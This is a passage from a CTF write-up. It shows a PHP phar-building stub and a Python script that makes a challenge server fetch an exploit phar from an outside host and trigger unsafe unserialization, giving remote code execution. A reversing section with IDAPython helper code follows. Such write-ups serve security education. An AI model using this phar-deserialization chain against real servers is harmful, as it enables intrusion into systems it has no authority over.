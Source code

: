```php
        $p['file.txt'] = 'test';
        $p->setMetadata($a);
        $p->setStub('<?php __HALT_COMPILER(); ?>');
        return $a; 
    }   
}

```

We'll first make a GET request such that server will save the expolit. Then use POST to trigger the unsafe unserialization. The path of the body.cache is known.


```python
import hashlib
import requests
s = requests.session()
print(s.get('http://13.230.134.135/', params={'url': 'http://240.240.240.240:11111/exp.phar'}).text)
md5 = hashlib.md5(b'http://240.240.240.240:11111/exp.phar').hexdigest()
print(s.post('http://13.230.134.135/', params={'url': 'http://240.240.240.240:11111/exp.phar', 'data[]': '@phar:///var/www/html/tmp/cache/mycache/240.240.240.240/'+md5+'/body.cache'}))

```

The flag is `hitcon{smart_implementation_of_CURLOPT_SAFE_UPLOAD><}`. This is a classic example how an innocuous arbitrary file read vulnerability turns into a RCE.

## Reverse

### EOP

Instead of directly call functions and return, the binary leverages the mechanism of exception in C++ to chain the functions, and the operations of an encryption algorithm scattered into 123 functions.
To speed up the process of reversing, we extract them by idapython.


```python=
from idaapi import *


#rename function pointor in sub_482A
dic = {}
for i in CodeRefsTo(0xacd2, 1):
    dic[GetFunctionName(i)] = GetFunctionName(Qword(GetOperandValue(NextHead(i),1)))
s = 0x4843
e = 0x55A7
while s < e:
     name = dic[GetFunctionName(GetOperandValue(s,0))]
     name = "ptr_" + name
     MakeNameEx(GetOperandValue(NextHead(s),0),name,idc.SN_NOWARN)
     s += 0x5f-0x43

#get the exception number of next function
next = {}
for i in CodeRefsTo(0x4670 ,1):
    if "mov     dword ptr [rax]," in GetDisasm(NextHead(i)):
        next[GetFunctionName(i)] = GetOperandValue(NextHead(i),1)

#the order of function    
next_f = 28
order = []
for i in range(123):
    now_f = Name(0x2131E0 + 8*next_f)[4:]
    order.append(now_f)
```